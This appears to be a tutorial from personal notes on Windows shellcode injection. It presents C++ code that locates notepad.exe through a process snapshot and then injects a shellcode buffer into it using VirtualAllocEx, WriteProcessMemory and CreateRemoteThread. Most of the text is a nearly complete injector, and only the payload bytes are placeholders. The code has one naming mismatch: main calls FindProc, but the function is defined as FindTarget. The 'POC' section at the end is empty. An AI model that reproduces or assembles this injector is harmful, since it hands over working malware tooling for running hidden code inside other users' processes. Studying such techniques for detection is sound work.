

# Shellcode injection

## Injecting Shellcode

The idea is :

* Create a global variable containing the shellcode
* Create a function which will create a snapshot of all the processes running in memory and then, search retrieve victim process information
* Create an inject function
* Select the "victim" process and retrieve his PID

### Shellcode Global variable

As usual, we have to declare the payload :

`unsigned char payload[] = {0xf, 0xdf...}`

We also need the payload's length:

`unsigned int payload_len = xxx ;`

### Locate the process

This can be done using the following functions :

1. **Create a snapshot of running processes:**

`hProcessessSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);`

1. **Search for the victim process by comparing the `*procname` to other process retrieved on the snapshot**

Two functions are used to do this task

* `Process32First`

And the search loop

* `Process32Next`

  Note: We can also use the `lstrcmpiA` function to set our search as 'case insensitive'.

#### Code

```cpp
int FindTarget(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;

        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;

        pe32.dwSize = sizeof(PROCESSENTRY32); 

        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }

        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }

        CloseHandle(hProcSnap);

        return pid;
}
```

### Inject function

The inject function

1. **Allocate memory in the target process using `VirtualAllocEx`**

   `VirtualAllocEx(hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);`

2. **Copy the shellcode in the remote buffer memory using `WriteProcessMemory`**

   `WriteProcessMemory(hProcess, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);`

3. **Execute the shellcode remotly using `CreateRemoteThread`**

CreateRemoteThread\(hProcess, NULL, 0, pRemoteCode, NULL, 0, NULL\);

#### Code

```cpp
int Inject(HANDLE hProcess, unsigned char * payload, unsigned int payload_len) {

        LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;


        pRemoteCode = VirtualAllocEx(hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
        WriteProcessMemory(hProcess, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);

        hThread = CreateRemoteThread(hProcess, NULL, 0, pRemoteCode, NULL, 0, NULL);
        if (hThread != NULL) {
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
                return 0;
        }
        return -1;
}
```

### Main function

Putting everything together :

We also need to create a hProcess function, which need a specific PID :

```cpp
hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
                        PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                        FALSE, (DWORD) pid);
```

#### Code

```cpp
int main(void) {

    int pid = 0;
    HANDLE hProcess = NULL;

    pid = FindProc("notepad.exe");

    if (pid) {
        printf("Notepad.exe PID = %d\n", pid);

        hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
                        PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                        FALSE, (DWORD) pid);

        if (hProcess != NULL) {
            Inject(hProcess, payload, payload_len);
            CloseHandle(hProcess);
        }
    }
    return 0;
}
```

#### POC



